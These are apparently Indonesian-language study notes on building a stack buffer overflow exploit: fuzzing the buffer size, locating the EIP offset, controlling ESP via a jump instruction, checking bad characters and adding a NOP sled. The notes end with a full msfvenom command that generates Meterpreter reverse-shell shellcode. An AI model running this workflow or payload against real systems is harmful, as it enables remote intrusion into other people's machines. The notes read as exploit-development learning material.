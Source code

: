 Fuzz
menetukan besar buffer = 2900
menentukan offset eip, dimana eip mulai tertimpa data == jarak tertentu dari titik awal sebuah alamat memory = 2003

Alamat memori adalah pengenal unik yang menentukan lokasi byte atau kata tertentu dalam memori. Alamat memori biasanya direpresentasikan sebagai nilai heksadesimal dan digunakan oleh CPU untuk mengakses dan memanipulasi data yang tersimpan dalam memori.

Di sisi lain, offset adalah nilai relatif yang menentukan jarak antara dua alamat memori. Ini adalah perbedaan antara alamat memori byte atau word tertentu dan alamat dasar struktur data atau array yang menjadi bagiannya. Offset sering digunakan dalam bahasa pemrograman untuk mengakses elemen tertentu dalam array atau struktur data.

memastikan offset tersebut
perhatikan esp tertimpa oleh payload kita == esp dapat kita control -> mencari intruksi jump menuju esp

set breakpoit untuk memastikan kode yang bisa kita kontrol

menentukan bad code----

memberikan nops sleed

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=eth0 LPORT=4444 -f python -b "\x00"